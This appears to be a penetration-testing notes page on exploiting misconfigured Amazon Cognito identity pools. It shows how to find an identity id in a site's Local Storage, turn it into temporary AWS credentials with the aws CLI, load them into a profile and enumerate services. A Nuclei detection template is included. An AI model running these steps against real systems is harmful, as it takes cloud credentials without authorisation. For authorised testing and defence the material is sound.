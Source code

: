 # Amazon Cognito missconfiguration



## Detech

```
us-east-1:xxx
us-east-2:xxx
us-west-1:xxx
us-west-2:xxx
eu-west-1:xxx
eu-west-2:xxx
eu-west-3:xxx
eu-north-1:xxx
eu-central-1:xxx
ap-south-1:xxx
ap-southeast-1:xxx
ap-southeast-2:xxx
ap-northeast-1:xxx
ap-northeast-2:xxx
ap-northeast-3:xxx
sa-east-1:xxx
ca-central-1:xxx
cn-north-1:xxx
cn-northwest-1:xxx
```

## How found

```
Found 
- com.amplify.Cognito.eu-west-1.blalalalalalalalalala.identityId
- Value (eu-west-1:e3923078-cccc-bbbb-aaaa-xxxxxxxxxxxx)
both in Local Storage (always should check Local Storage)

use command:

aws cognito-identity get-credentials-for-identity \n
--identity-id "eu-west-1:e3923078-cccc-bbbb-aaaa-xxxxxxxxxxxx"

Data
{
Credentials:
    { "Access..": ...
    "SecretKey": ...
    "SessionToken": ...
    }
    
    
```

Nuclei template

```
id: Exposed-aws-Identity-Pool-Id

info:
      name: AWS Identity Pool Id
      author: B0d4
      severity: critical
      reference:
        - https://docs.aws.amazon.com/cognito/latest/developerguide/identity-pools.html
      metadata:
        verified: true
        max-request: 1
      tags: disclosure,aws,exposure,amazon
http:
    - method: GET
      path:
        - "{{BaseURL}}"

      extractors:
        - type: regex
          part: body
          regex:
              - \b(?:us-east-1|us-east-2|us-west-1|us-west-2|eu-west-1|eu-west-2|eu-west-3|eu-north-1|eu-central-1|ap-south-1|ap-southeast-1|ap-southeast-2|ap-northeast-1|ap-northeast-2|ap-northeast-3|sa-east-1|ca-central-1|cn-north-1|cn-northwest-1):[a-z0-9-]+\b
```

Credit: [https://github.com/Wh02m1/nuclei-templete-for-Exposed-Idenetity-Pool-Id/](https://github.com/Wh02m1/nuclei-templete-for-Exposed-Idenetity-Pool-Id/)



<figure><img src="../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

```
Next use that access and secret key access data

aws configure --profile profiletest

because of that session have  time to out, we should config in

~/.aws/credentials

Manual add line aws_session_token is SessionToken
```

<figure><img src="../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

```
Next test 

aws sts get-caller-identity --profile profiletest

use tools to exploit
https://github.com/NotSoSecure/cloud-service-enum.git
```

{% embed url="https://awstip.com/how-i-exploited-amazon-cognito-misconfigurations-to-access-confidential-s3-data-badb62cabfab" %}
